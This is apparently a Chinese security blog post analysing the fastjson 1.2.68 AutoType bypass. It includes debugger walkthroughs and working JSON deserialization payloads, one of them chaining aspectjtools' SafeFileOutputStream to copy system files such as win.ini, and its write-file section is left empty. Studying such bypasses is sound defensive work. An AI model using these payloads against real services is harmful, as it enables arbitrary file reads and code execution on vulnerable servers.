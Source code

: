 ```yaml
---
layout: post
date: 2025-8-8
title: "fastjson(1.2.68)反序列化-分析-利用"
author: "XinYiSleep"
category: Java
---
```

<h1 id="pCrd7">1.基本信息</h1>

```
今天我们来学习1.2.68和1.2.80中的绕过，一个一个来先看看1.2.68。
1.2.68包
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.68</version>
        </dependency>
1.2.80包
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.80</version>
        </dependency>
```
<h1 id="Vq7R8">2:1.2.68分析</h1>

```
1.2.68是无需开启 AutoType  ，直接能绕过`CheckAutoType()`方法的，绕过原理是执行第二次checkAutoType()方法中第二个参数expectClass造成的绕过，
下面我们自己模拟执行一下poc(代码一，代码二)。也是能成功执行的图一。
```
```java
String payload1 = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"com.example.fastjsondemo.Fats68\",\"name\":\"calc\"}";
JSON.parseObject(payload1);
```

```java
package com.example.fastjsondemo;

import java.io.FileOutputStream;
import java.io.IOException;

public class Fats68 implements AutoCloseable{
    private String name;


    public void setName(String name) throws Exception {
        Runtime.getRuntime().exec(name);
    }

    public Fats68() throws Exception {
        System.out.println("构造方法");
    }

    @Override
    public void close() throws Exception {

    }
}

```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/1.png)

```
下面我们debug分析一下，这里就直接看绕过部分了，先看第一个checkAutoType，在图一中我们可以看到expectClass是null,typeName也就是获取到第一个@type内容
java.lang.AutoCloseable，一直走到图二直接从mappings这个Map缓存中获取到了内容，下面就是图三expectClass是null所以直接就返回clazz了。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/2.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/3.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/4.png)

```
走出来之后接着就会进入getDeserializer来获取反序列化器`JavaBeanDeserializer`图一，跟进去看看 图二，
其实没必要在跟进去了没啥重要操作我直接截图带过图三图四，接着进入`JavaBeanDeserializer`的deserialze方法进行反序列化操作图四。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/5.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/6.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/7.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/8.png)

```
进来之后一直走到第二次checkAutoType，这里可以看到第一个参数ref就是第二个json的
@type也就是com.example.fastjsondemo.Fats68，第二个参数是expectClass也就是java.lang.AutoCloseable图一，
跟进去因为我们自己设置的这个不在白名单也不再黑名单会一直走到图二，进入loadClass之后因为cache是fales所以不会put到mappings中直接返回了图三。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/9.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/9.5.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/10.png)

```
下面就到了最关键的代码了，也就是图一的代码，可以看到expectClass不等于null就往下走
TypeUtils.addMapping(typeName, clazz);这个代码是可以直接put到mappings这个白名单的，expectClass.isAssignableFrom(clazz)，
这个代码也就是说判断clazz是不是expectClass的子类或者实现类，我们知道这里进行了第二次的checkAutoType其中第二个参数也就是expectClass他不就是
java.lang.AutoCloseable吗？没错是这个掉毛，那么师傅就要问了那么是不是我可以写成任意类只要clazz实现或者他的子类就可以呢？
答案是不可以的，因为你不要忘记，我们能走到第二个checkAutoType完全是依靠第一个checkAutoType的白名单这个白名单也就是poc中第一
个@type也就是java.lang.AutoCloseable，那么师傅又要问了那我能不能是这个白名单的任意类呢？答案是 部分可以，就比如代码一代码二。

```

```java
String payload1 = "{\"@type\":\"java.lang.NullPointerException\",\"@type\":\"com.example.fastjsondemo.Fats68\",\"name\":\"calc\"}";
JSON.parseObject(payload1);
```

```java
package com.example.fastjsondemo;

import java.io.FileOutputStream;
import java.io.IOException;

public class Fats68 extends Throwable {
    private String name;


    public void setName(String name) throws Exception {
        Runtime.getRuntime().exec(name);
    }

    public Fats68() throws Exception {
        System.out.println("构造方法");
    }
}

```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/11.png)

```
我们接着看，put到mappings中之后就返回了，后面就开始进行反序列化了，有很多师傅
肯定会有疑问，要是从我讲1.2.24看起的师傅应该没啥问题的，那就是没办法进入deserialze，这里其实很简单在测试的类上面写一个Getter的Map方法就行，
下面跟不跟都无所谓和之前24区别不是很大，进入之后执行了createInstance方法然后进行反射执行无参构造图一，之后返回出来在执行
fieldDeser.setValue(object, fieldValue);执行Setter也是反射执行的就不截图了，ok到这里基本上分析就结束了。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/12.png)

<h1 id="B9dNK">3.真实利用</h1>

```
上面那个只是本地测试，也就是绕过姿势，在真实环境中怎么可能有我上面代码直接让你命令执行，所以我们得去找利用链，现在我们是有条件的，那就是必须实AutoCloseable 
接口的才可以。

```

<h3 id="A0OjZ">3.1：复制文件导致任意文件读取链</h3>

```
首先需要引入依赖包aspectjtools代码一，利用的类是 SafeFileOutputStream  ，我们现进去看看是否复合条件图一，接着我们查看构造方法图二，
这里39行可以看到存在copy操作，首先我们需要targetPath是一个不存在的目录(为了方便理解我贴出来代码二),来走进这个if,this.temp就是 
this.createTempFile(tempPath);写一个真实目录文件，就复制了。
```

```java
<dependency>  
     <groupId>org.aspectj</groupId>  
     <artifactId>aspectjtools</artifactId>  
     <version>1.9.6</version>  
</dependency>
```

```java
public SafeFileOutputStream(String targetPath, String tempPath) throws IOException {
        this.failed = false;
        this.target = new File(targetPath);
        this.createTempFile(tempPath);
        if (!this.target.exists()) { //首先我们需要targetPath是一个不存在的目录
            if (!this.temp.exists()) {
                this.output = new BufferedOutputStream(new FileOutputStream(this.target));
                return;
            }

            this.copy(this.temp, this.target);
        }

        this.output = new BufferedOutputStream(new FileOutputStream(this.temp));
    }
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/13.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/14.png)

```
这里就直接看poc。
```

```java
String payload1 = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\"targetPath\":\"C:/Users/xxxx/Desktop/java测试/Fastjsondemo/1.txt\",\"tempPath\":\"C:/Windows/win.ini\"}";
JSON.parseObject(payload1);
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.68/15.png)

<h3 id="nAk7x">3.2：写文件链</h3>
```java
。。。。。
```

